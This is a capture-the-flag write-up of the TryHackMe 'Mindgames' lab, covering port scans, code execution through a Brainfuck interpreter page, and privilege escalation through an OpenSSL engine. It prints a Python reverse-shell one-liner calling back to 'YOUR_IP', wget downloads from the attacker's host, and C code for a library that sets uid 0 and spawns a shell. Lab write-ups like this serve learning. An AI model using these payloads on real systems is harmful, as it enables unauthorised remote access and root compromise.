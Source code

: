 # TryHackMe Mindgames Writeup

Challenge Link: [Mindgames](https://tryhackme.com/room/mindgames)

Mindgames is a hard rated box on TryHackMe. We're tasked with enumerating, gaining initial access,and then a somewhat tricky privilege escalation using a Library Load via OpenSSL.

## Recon

There wasn't that much enumeration to do since we only found 2 ports open: 22 running ssh and 80 running a HTTP server from our NMAP scan.
```markdown
# Nmap 7.80 scan initiated Tue Jun 16 23:26:12 2020 as: nmap -sC -sV -o nmap 10.10.91.145
Nmap scan report for 10.10.91.145
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see that port 80 is open, so I decided to run a GoBuster scan to see if I could find anything. After about 10 minutes of scanning, I figured there were no directories on the site.
```markdown
root@kali:~/THM/mindgames# gobuster dir -u 10.10.91.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.91.145
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/17 10:21:52 Starting gobuster
===============================================================
Progress: 19932 / 87665 (22.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/17 10:29:03 Finished
===============================================================
```

## Initial Shell

Let's go check out the page!
![image]({{0xtaylur.github.io}}/assets/mindgames/mindgames_page.png)

Hmmm, very intersting. It seems as if the the page decodes the _Brainfuck_ programming language. Let's see what happens when we throw the "Hello, World" section into the textbox.
![image]({{0xtaylur.github.io}}/assets/mindgames/hello_world.png)

It just prints _"Hello, World"_. Now let's see what happens when we try it with the Fibonacci brainfuck text.
![image]({{0xtaylur.github.io}}/assets/mindgames/fibonacci.png)

So it seems like it it runs the actual brainfuck progamming language. Let's see if we can try to get a reverse shell with this knowledge. I headed over to the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and used the python reverse shell code.
```markdown
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

After I changed the default IP in that code block to my tun0 IP. (You can find that out by using the command _ifconfig_ in your terminal). I started a netcat session listening on port 1234. I then headed over to a brainfuck encoder to convert it, let's throw this code into the mindgames site and see if we can get an initial shell.

We successfully get a reverse shell as user: _mindgames_
![image]({{0xtaylur.github.io}}/assets/mindgames/initial_shell.png)

From here, we can go back one directory and read into _user.txt_
![image]({{0xtaylur.github.io}}/assets/mindgames/user.png)

## Privilege Escalation

Let's start off with using LinEnum to see if we can look into any interesting files that we can use to start our privilege escalation. On your host machine, change into your directory where you have _LinEnum_ stored. If you do not have LinEnum you can get it [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) by using the _wget_ command.

On your host machine, start a SimpleHTTPServer on port 8000 by using this command:
```markdown
python -m SimpleHTTPServer
```

Change into the /tmp directory on your reverse shell, we can use the _wget_ command to put LinEnum.sh on the machine so we can run it.
```markdown
$ wget YOUR_IP:8000/LinEnum.sh
--2020-06-17 15:36:21--  http://YOUR_IP:8000/LinEnum.sh
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100%  106K=0.4s

2020-06-17 15:36:22 (106 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```

Now let's make it an executable file by using _chmod +x LinEnum.sh_. Run LinEnum by using "./LinEnum.sh".

After reading through LinEnum we find that _/usr/bin/openssl_ has [POSIX](https://uwsgi-docs.readthedocs.io/en/latest/Capabilities.html) capability.
![image]({{0xtaylur.github.io}}/assets/mindgames/openssl.png)

After a bit of research, I found a library load via OpenSSL using the C programming language. Create a C file named _engine.c_ and put this code block inside of it.
```markdown
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

After we have made this C file, we must compile it using this command:
```markdown
gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -Lcrypto a.o
```

Once compiled, set up another SimpleHTTPServer and grab the engine.so file from your host machine onto the reverse shell.
```markdown
$ wget YOUR_IP:8000/engine.so
--2020-06-17 15:55:53--  http://YOUR_IP:8000/engine.so
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16024 (16K) [application/octet-stream]
Saving to: ‘engine.so’

     0K .......... .....                                      100% 71.8K=0.2s

2020-06-17 15:55:54 (71.8 KB/s) - ‘engine.so’ saved [16024/16024]
```

We can now open GTFOBins and search for an OpenSSL Library Load.
![image]({{0xtaylur.github.io}}/assets/mindgames/gtfo.png)

We can now run this command but switch out "./lib.so" with "./engine.so".
![image]({{0xtaylur.github.io}}/assets/mindgames/got_root.png)

We are now root! We should now be able to cat the root flag.
![image]({{0xtaylur.github.io}}/assets/mindgames/root.png)
